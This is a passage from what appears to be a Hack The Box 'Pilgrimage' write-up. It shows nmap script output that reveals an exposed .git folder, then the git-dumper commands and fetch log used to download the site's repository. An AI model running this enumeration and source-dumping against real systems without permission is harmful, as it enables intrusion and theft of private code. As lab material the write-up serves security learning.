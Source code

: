 ```
|     Form id: filename
|     Form action: /
|     
|     Path: http://pilgrimage.htb:80/dashboard.php
|     Form id: 
|     Form action: /login.php
|     
|     Path: http://pilgrimage.htb:80/login.php
|     Form id: 
|     Form action: /login.php
|     
|     Path: http://pilgrimage.htb:80/logout.php
|     Form id: filename
|     Form action: /
|     
|     Path: http://pilgrimage.htb:80/register.php
|     Form id: 
|_    Form action: /register.php
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-fileupload-exploiter: ERROR: Script execution failed (use -d to debug)
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
| http-enum: 
|   /login.php: Possible admin folder
|_  /.git/HEAD: Git folder
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```
The scripts found the visible php files that make up the site and highlighted the .git folder for me.
In my case, if I try to see the .git folder the site returns me a `403` code

* 403 Forbidden - `.git` exists, but I am not able to list the folder in that server.

It can be caused by directory listing disabling on the server, but if I know the name of the files in this folder I am able to download them.

I found a script on [github](https://github.com/arthaud/git-dumper) that works for me.

```
$ python -m pip install git-dumper
```
After installing it I ran the script giving it the URL of the .git folder to search in.

```
$ git-dumper http://pilgrimage.htb .git
[-] Testing http://pilgrimage.htb/.git/HEAD [200]
[-] Testing http://pilgrimage.htb/.git/ [403]
[-] Fetching common files
[-] Fetching http://pilgrimage.htb/.gitignore [404]
[-] http://pilgrimage.htb/.gitignore responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/commit-msg.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-receive.sample [404]
[-] http://pilgrimage.htb/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://pilgrimage.htb/.git/description [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-update.sample [200]
[-] Fetching http://pilgrimage.htb/.git/hooks/post-commit.sample [404]
[-] http://pilgrimage.htb/.git/hooks/post-commit.sample responded with status code 404
```